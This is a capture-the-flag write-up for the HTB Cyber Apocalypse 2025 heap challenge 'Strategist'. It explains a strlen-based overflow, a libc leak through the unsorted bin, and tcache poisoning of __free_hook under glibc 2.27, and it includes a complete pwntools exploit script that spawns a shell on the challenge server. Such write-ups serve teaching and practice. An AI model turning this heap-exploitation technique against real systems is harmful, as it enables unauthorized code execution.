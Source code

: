 ```yaml
---
title: Strategist
type: writeup
date: 2025-03-26T0:00:19+03:00
description: Writeup for Strategist [HTB Cyber Apocalypse 2025]
author: PineBel
tags:
- pwn 
- heap
draft: false
---
```


## Challenge description

To move forward, Sir Alaric requests each member of his team to present their most effective planning strategy. The individual with the strongest plan will be appointed as the Strategist for the upcoming war. Put forth your best effort to claim the role of Strategist!

## Intuition

It looks like a classic heap challenge. We can control the size of malloc and write to that chunk. We can also remove (free) that chunk and edit its contents. We also get the libc version which is: `glibc 2.27`. 
I used `patchelf` to modify my binary to have the correct libc and ld.

**Vulnerability**: When editing a chunk, the edit function computes the length with strlen, which means that we can overwrite the size field of the next chunk if we make the current chunk full.

```C
    __nbytes = strlen((char *)mem_ptr[input_idx]);
    read(0,(void *)mem_ptr[input_idx],__nbytes);
```

Example (allocate two chunks of 24, fill the first one up):
```
                                    0x0000000000000021	........!....... <--- first chunk
0x555555a01670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555555a01680	0x0a61616161616161	0x0000000000000021	aaaaaaa.!....... <--- second chunk
0x555555a01690	0x0000000a42424242	0x0000000000000000	BBBB............
0x555555a016a0	0x0000000000000000	0x0000000000020961	........a.......	 <-- Top chunk
```

Now if we edit the first chunk, strlen() will also include the second chunks size, so we can overwrite the size if we want.

So the strategy for this challenge would be to leak a libc address and do tcache poisoning to the \_\_free\_hook (since we have 2.27 we can do that) 
## Solution

#### Leaking libc

1. Create a chunk that gets in the Unsorted bin (bc it has fwd ptr and bck ptr towards the main arena).
2. Guard the Unsorted bin chunk with a smaller chunk to prevent merging with the top.


After we allocate a large chuck and a smaller chunk + free the large chunk + allocate large again to get leak:
```
0x555574953660	0x0000000000000000	0x0000000000000431	........1.......
0x555574953670	0x00007ab6a23ebc61	0x00007ab6a23ebca0	a.>..z....>..z..
0x555574953680	0x0000000000000000	0x0000000000000000	................
```


So after the leak it's just a simple tcache poisoning.
Steps for tcache poisoning:

1. Allocate three chunks that will fit in the tcache.

```
0x55555d52e660	0x0000000000000000	0x0000000000000031	........1....... <--- C1
0x55555d52e670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x55555d52e680	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x55555d52e690	0x6161616161616161	0x0000000000000031	aaaaaaaa1....... <--- C2
0x55555d52e6a0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x55555d52e6b0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x55555d52e6c0	0x6262626262626262	0x0000000000000031	bbbbbbbb1....... <--- C3
0x55555d52e6d0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d52e6e0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d52e6f0	0x6363636363636363
```

2. Use edit vuln to overwrite C2 size. This will allow us to overwrite C3 later.

```
0x555567480660	0x0000000000000000	0x0000000000000031	........1....... <--- C1
0x555567480670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555567480680	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555567480690	0x6161616161616161	0x0000000000000061	aaaaaaaaa....... <--- C2 (NEW SIZE)
0x5555674806a0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x5555674806b0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x5555674806c0	0x6262626262626262	0x0000000000000031	bbbbbbbb1....... <--- C3
0x5555674806d0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x5555674806e0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x5555674806f0	0x6363636363636363
```

3. Free C2 and C3 

```
                                    0x0000000000000031	........1....... <--- C1
0x555582d1f670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555582d1f680	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555582d1f690	0x6161616161616161	0x0000000000000061	aaaaaaaaa....... <--- C2 
0x555582d1f6a0	0x0000000000000000	0x0000555582d1f010	............UU..	 <-- tcachebins[0x60][0/1]
0x555582d1f6b0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x555582d1f6c0	0x6262626262626262	0x0000000000000031	bbbbbbbb1....... <--- C3
0x555582d1f6d0	0x0000000000000000	0x0000555582d1f010	............UU..	 <-- tcachebins[0x30][0/1]
0x555582d1f6e0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x555582d1f6f0	0x6363636363636363
```

4. Allocate a chunk that fits in the 0x60 chunk size => we can overwrite C3 with the free hook

```
0x55555d4f7660	0x0000000000000000	0x0000000000000031	........1....... <--- C1
0x55555d4f7670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x55555d4f7680	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x55555d4f7690	0x6161616161616161	0x0000000000000061	aaaaaaaaa....... <--- C2
0x55555d4f76a0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d4f76b0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d4f76c0	0x6363636363636363	0x3434343434343434	cccccccc44444444 <--- C3 overwritten  (6d0 -> __free_hook ptr)
0x55555d4f76d0	0x00007f2d071ed8e8	0x000055555d4f7010	....-....pO]UU..	 <-- tcachebins[0x30][0/1]
0x55555d4f76e0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d4f76f0	0x6363636363636363

tcachebins
0x30 [  1]: 0x55555d4f76d0 —▸ 0x7f2d071ed8e8 (__free_hook) 
```

5. Allocate a chunk that will contain the args for system.
6. Allocate a chunk with a ptr to sytem.

```
x/1xg &__free_hook
0x78ed30ded8e8 <__free_hook>:	0x000078ed30a4f550
pwndbg> x 0x000078ed30a4f550
0x78ed30a4f550 <system>:	0xfa66e90b74ff8548
```

7. Call free on the chunk that has /bin/sh


Solve:
```py
from pwn import *
import time

#context.binary = bin = ELF("./strategist")
libc   = ELF('./libc.so.6')
ld = ELF('./ld-linux-x86-64.so.2')
#target = process([ld.path,bin.path],env={"LD_PRELOAD":libc.path})
target = remote("94.237.61.57",45450)


def allocate(size, p):
    target.sendlineafter(b'> ', b'1')
    target.sendlineafter(b'> ', str(size).encode())
    target.sendafter(b'> ', p)

def free(idx):
     target.sendlineafter(b'> ', b'4')
     target.sendlineafter(b'> ', str(idx).encode())

def show(idx):
    target.sendlineafter(b'> ', b'2')
    target.sendlineafter(b'> ', str(idx).encode())
    target.recvuntil(f'Plan [{idx}]: ')
    return target.recvline()[:-1]

def edit(idx,p):
    target.sendlineafter(b'> ', b'3')
    target.sendlineafter(b'> ', str(idx).encode())
    target.sendafter(b'> ', p)


allocate(0x420,b"a") # put in unsorted bin because it has 2 ptrs that we will leak 
allocate(0x100,b"b") # put tcache so that we don't merge with top chunk when we free

free(0)
free(1)

allocate(0x420,b"a") # this is the chunk with leak
leak = u64(show(0).ljust(8,b'\x00'))
leak = leak - 0x3ebc61
libc.address = leak
print(f"Leak:{leak:#010x}")
#print(hex(libc.sym.__free_hook))
free(0)


### Tcache poisoning

tcache_size = 0x28

allocate(tcache_size, tcache_size*b"a") # full chunk => leads to overflow
allocate(tcache_size, tcache_size*b"b") 
allocate(tcache_size, tcache_size*b"c")


edit(0,tcache_size*b"a"+p8(0x61)) # edit chunk so that we overwrite chunk size 
free(1)
free(2)

allocate(0x50,tcache_size*b"c"+b"4"*8+p64(libc.sym.__free_hook)) # this chunk will go into the one that overflows the second one (fwd_ptr), the second size actually doesn't matters (the 4)

allocate(tcache_size, b"/bin/sh\x00"+p64(0x0)) # prepare arg for system
allocate(tcache_size, p64(libc.sym.system)) # write system in free hook
#gdb.attach(target)
#pause()

print(show(2))
free(2) # call system with /bin/sh arg
target.interactive()
```




